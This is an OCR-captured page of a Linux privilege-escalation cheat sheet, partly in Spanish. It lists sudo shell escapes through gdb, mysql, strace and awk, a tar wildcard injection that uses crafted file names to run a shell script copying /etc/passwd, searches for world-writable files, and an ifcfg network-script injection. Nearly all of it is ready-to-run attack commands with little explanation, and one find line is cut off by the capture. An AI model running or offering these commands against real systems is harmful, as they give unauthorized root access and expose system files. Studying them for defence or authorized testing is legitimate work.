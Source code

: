 ```sh
gdb -nx -ex '!sh' -ex quit 
sudo mysql -e '! /bin/sh' 
strace -o /dev/null /bin/sh 
sudo awk 'BEGIN {system("/bin/sh")}'
```
# Wildcard

Al usar tar con las opciones `–checkpoint-action`, se puede usar una acción específica después de un punto de control. Esta acción podría ser un script de shell malicioso que podría usarse para ejecutar comandos arbitrarios bajo el usuario que inicia tar. “Tricking” al root para que utilice opciones específicas es bastante fácil, y ahí es donde el comodín resulta útil.

```sh
# create file for exploitation 

touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script 
tar cf archive.tar *
```

Tool: wildpwn

# Archivos grabables

Enumere los archivos grabables del mundo en el sistema.

```sh
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec l
find / -perm -2 -type f 2>/dev/null 
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### Writable `/etc/sysconfig/network-scripts/` (Centos/Redhat)


`/etc/sysconfig/network-scripts/ifcfg-1337` for example

```sh
NAME=Network /bin/id  &lt;= Note the blank space 
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```

src :
https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f
